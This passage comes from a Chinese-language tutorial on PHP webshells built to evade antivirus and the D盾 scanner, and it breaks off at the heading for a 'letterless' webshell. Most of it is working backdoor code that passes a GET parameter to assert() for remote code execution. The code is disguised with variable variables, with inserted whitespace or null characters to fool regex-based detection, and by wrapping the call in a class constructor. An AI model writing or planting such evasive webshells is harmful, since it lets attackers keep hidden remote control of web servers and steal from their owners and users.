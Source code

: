 ```php
<?php
$zeo = 'dalao';
$$zeo = $_GET['x'];
assert($dalao);
```

## 特殊字符干扰

- 要求是能干扰到杀软的正则判断，还要代码能执行。
- 这个可以自己fuzz
- 大概就是说各种回车、换行、null和空白字符
- 我这里试了一下成功了，配合上面的可变变量

```php
<?php
$zeo='dalao';
$$zeo=$_GET['x'];
assert(`  `.$dalao);
?>
```

## 使用类绕过

类现在发现好多人在用，这个好像D盾检测的最轻，用类自然就少不了魔法函数

```php
<?php 
class zeo2
{
  public $b ='';
  
  function post(){
    return $_GET['x'];
  }
}
class zeo extends zeo2
{
  public $code=null;
  function __construct(){
  	$code=parent::post();
    assert($code);
  }
}
$blll = new zeo;
//$bzzz = new zeo2;
?>
```

## 无字母马

主要思路就是：
